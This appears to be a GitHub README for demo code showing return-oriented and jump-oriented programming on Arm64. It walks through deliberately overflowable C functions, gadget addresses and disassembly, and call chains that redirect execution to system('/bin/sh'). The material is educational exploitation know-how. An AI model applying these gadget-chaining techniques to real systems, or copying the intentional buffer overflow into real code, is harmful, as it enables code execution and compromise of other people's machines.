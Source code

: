 ## Return-oriented programming (ROP) and Jump-oriented-programming (JOP) examples on Arm64 platform
When the stack overflow occurs, the examples show how to use the ROP and JOP to start shell with the system api.
![](demo.gif)
### Platform
Hardware: [Neoverse N1 System Development Platform (N1SDP)](https://community.arm.com/developer/tools-software/oss-platforms/w/docs/457/n1sdp-getting-started-guide) 
<br>
OS: Ubuntu 18.04.4 LTS 
<br>
GCC: gcc version 7.5.0 

### Structure
```bash 
├── Makefile
├── jop           # JOP exe       
├── jop.asm       # JOP assembly dump file 
├── jop.c         # JOP source code 
├── jop.data      # JOP input binary data 
├── jop.data.gen  # JOP input binary data generate script
├── rop           # ROP exe 
├── rop.asm       # ROP assembly dump file
├── rop.c         # ROP source code 
├── rop.data      # ROP input binary data  
└── rop.data.gen  # ROP input binary data generate script
```
### system() API address 
Add the below code to make sure the system() api linking into the binary: 
```C
void rop_symbol()
{
	system("/bin/ls"); 
}
```
```assembly
	system("/bin/ls"); // to make the system link to the binary
  400404:	90000280 	adrp	x0, 450000 <_nl_locale_subfreeres+0x1b8>
  400408:	9116e000 	add	x0, x0, #0x5b8
  40040c:	940019b7 	bl	406ae8 <__libc_system>
```
system() api address is **0x406ae8**
### Useful string "/bin/sh" address
According to the glibc do_system source code
```bash
$ grep -aPbo '/bin/sh'   jop
326928:/bin/sh

$readelf -l jop

Elf file type is EXEC (Executable file)
Entry point 0x4002b4
There are 6 program headers, starting at offset 64

Program Headers:
  Type           Offset             VirtAddr           PhysAddr
                 FileSiz            MemSiz              Flags  Align
  LOAD           0x0000000000000000 0x0000000000400000 0x0000000000400000
                 0x000000000006daeb 0x000000000006daeb  R E    0x10000
```
So string "/bin/sh" can be get with the following command: 
```
$grep -aPbo '/bin/sh'   rop |awk -F: '{ printf("%x+400000",$1) }' |tr '[a-z]' '[A-Z]'|xargs echo "obase=16;ibase=16;"  |bc
450d10
```
String "/bin/sh" can be found at address **0x450d10**
### ROP example
```C
void rop_bad_func()
{
	char data[16] = {0};
	unsigned long long u64 = 0;
	int fd = 0;
	fd = open("./rop.data",O_RDONLY);
	read(fd,&u64,512);
}
```

#### Useful gadgets
* gadget 1: main
```assembly
	rop_bad_func();
  40046c:	97ffffec 	bl	40041c <rop_bad_func>
	return 0;
  400470:	52800000 	mov	w0, #0x0                   	// #0
}
  400474:	a8c17bfd 	ldp	x29, x30, [sp], #16
  400478:	d65f03c0 	ret
  
```
Set X30 = next gadget address 

* gadget 2: __deregister_frame_info_bases
```assembly
  44f02c:	f9400bf3 	ldr	x19, [sp, #16]
  44f030:	a8c37bfd 	ldp	x29, x30, [sp], #48
  44f034:	d65f03c0 	ret
```
Set X19 from stack,the value is the address string "/bin/sh", and it will set to X0 at next gadget
<br>
Set X30 = next gadget address 
* gadget 3: __deregister_frame_info_bases
```assembly
  44f080:	aa1303e0 	mov	x0, x19
  44f084:	f9400bf3 	ldr	x19, [sp, #16]
  44f088:	a8c37bfd 	ldp	x29, x30, [sp], #48
  44f08c:	d65f03c0 	ret
 ```
Set X0 = X19
<br>
Set X30 = system() api address from stack
 #### Calling flow
 
 ```C
 rop_bad_func 
   -->(0x400474) main 
      --> (0x44f02c)__deregister_frame_info_bases 
         --> (0x44f080)__deregister_frame_info_bases 
           --> system 
             --> system 
               --> ...
 ```
### JOP examples
```C
void jop_bad_func()
{
	jop_func_t func = NULL;
	char data[16] = {0};
	unsigned long long u64 = 0;
	int fd = 0;

	fd = open("./jop.data",O_RDONLY);
	func = jop_symbol;
	read(fd,&u64,512);
	func();
}
```
#### Useful gadgets
* gadget 1: jop_bad_func
```assembly
	func();
  400468:	f9401fa0 	ldr	x0, [x29, #56]
  40046c:	d63f0000 	blr	x0
```
Set X0 = gadget 2 address from stack 

* gadget 2: _dl_runtime_profile
```assembly
  441d84:	a94307a0 	ldp	x0, x1, [x29, #48]
  441d88:	6d4407a0 	ldp	d0, d1, [x29, #64]
  441d8c:	6d450fa2 	ldp	d2, d3, [x29, #80]
  441d90:	f94077be 	ldr	x30, [x29, #232]
  441d94:	910003bf 	mov	sp, x29
  441d98:	f94003bd 	ldr	x29, [x29]
  441d9c:	910403ff 	add	sp, sp, #0x100
  441da0:	d61f03c0 	br	x30
```
Set X0 = system() address 
<br>
Set X30 = gadget 3 address 

* gadget 3: _dl_runtime_profile
```assembly
  441cf4:	aa0003f0 	mov	x16, x0
  441cf8:	a94607a0 	ldp	x0, x1, [x29, #96]
  441cfc:	a9470fa2 	ldp	x2, x3, [x29, #112]
  441d00:	a94817a4 	ldp	x4, x5, [x29, #128]
  441d04:	a9491fa6 	ldp	x6, x7, [x29, #144]
  441d08:	6d4a07a0 	ldp	d0, d1, [x29, #160]
  441d0c:	6d4b0fa2 	ldp	d2, d3, [x29, #176]
  441d10:	6d4c17a4 	ldp	d4, d5, [x29, #192]
  441d14:	6d4d1fa6 	ldp	d6, d7, [x29, #208]
  441d18:	a9407bbd 	ldp	x29, x30, [x29]
  441d1c:	910403ff 	add	sp, sp, #0x100
  441d20:	d61f0200 	br	x16
```
Set X16 = X0 (system address)
<br>
Set X0 = "/bin/sh" string address
#### Calling flow
```C
jop_bad_func 
  --> (0x441d84)_dl_runtime_profile 
    --> (0x441cf4)_dl_runtime_profile 
       --> system
```
 
